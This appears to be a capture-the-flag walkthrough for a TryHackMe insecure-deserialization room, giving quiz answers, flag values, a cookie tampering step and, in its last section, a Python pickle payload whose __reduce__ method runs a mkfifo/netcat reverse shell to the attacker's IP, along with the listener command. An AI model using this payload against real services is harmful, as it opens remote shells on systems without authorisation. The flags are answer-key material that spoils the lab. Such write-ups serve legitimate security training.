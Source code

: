 # Task 21\~26

## Insecure Deserialization <a href="#insecure-deserialization" id="insecure-deserialization"></a>

### Who developed the Tomcat application? <a href="#who-developed-the-tomcat-application" id="who-developed-the-tomcat-application"></a>

#### Answer <a href="#answer" id="answer"></a>

The Apache Software Foundation

### What type of attack that crashes services can be performed with insecure deserialization? <a href="#what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization" id="what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization"></a>

#### Answer <a href="#answer-1" id="answer-1"></a>

denial of service

## Insecure Deserialization - Objects <a href="#insecure-deserialization---objects" id="insecure-deserialization---objects"></a>

## Select the correct term of the following statement: <a href="#select-the-correct-term-of-the-following-statement" id="select-the-correct-term-of-the-following-statement"></a>

#### Answer <a href="#answer-2" id="answer-2"></a>

A Behaviour

## Insecure Deserialization - Deserialization <a href="#insecure-deserialization---deserialization" id="insecure-deserialization---deserialization"></a>

### What is the name of the base-2 formatting that data is sent across a network as? <a href="#what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as" id="what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as"></a>

#### Answer <a href="#answer-3" id="answer-3"></a>

binary

## Insecure Deserialization - Cookies <a href="#insecure-deserialization---cookies" id="insecure-deserialization---cookies"></a>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be? <a href="#if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be" id="if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be"></a>

#### Answer <a href="#answer-4" id="answer-4"></a>

webapp.com/login

### What is the acronym for the web technology that Secure cookies work over? <a href="#what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over" id="what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over"></a>

#### Answer <a href="#answer-5" id="answer-5"></a>

https

## Insecure Deserialization - Cookies Practical <a href="#insecure-deserialization---cookies-practical" id="insecure-deserialization---cookies-practical"></a>

### 1st flag (cookie value) <a href="#1st-flag-cookie-value" id="1st-flag-cookie-value"></a>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```shell
echo -n "gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAZDYzOWIzNzUwMjM5NDM3ZTk4ZGZmOWM3NjEwOTYxZjlxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==" |base64 --decode
```

```md
}q(X    sessionIdqX d639b3750239437e98dff9c7610961f9qX
                                                      encodedflagqXTHM{good_old_base64_huh}qu.%
```

#### Answer <a href="#answer-6" id="answer-6"></a>

qXTHM{good\_old\_base64\_huh}

### 2nd flag (admin dashboard) <a href="#2nd-flag-admin-dashboard" id="2nd-flag-admin-dashboard"></a>

Change `user` to `admin`

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

#### Answer <a href="#answer-7" id="answer-7"></a>

THM{heres\_the\_admin\_flag}

## Insecure Deserialization - Code Execution <a href="#insecure-deserialization---code-execution" id="insecure-deserialization---code-execution"></a>

1. on local machine

Run nc listener

```
nc -lvnp 4444
```

Edit the python script with your VPN IP

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.18.1.159 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

Run python script and get the base64 command.

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTguMS4xNTkgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Edit the encodedPayload and get remote access

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```
cat /home/cmnatic/flag.txt
```

#### Answer <a href="#answer-8" id="answer-8"></a>

4a69a7ff9fd68

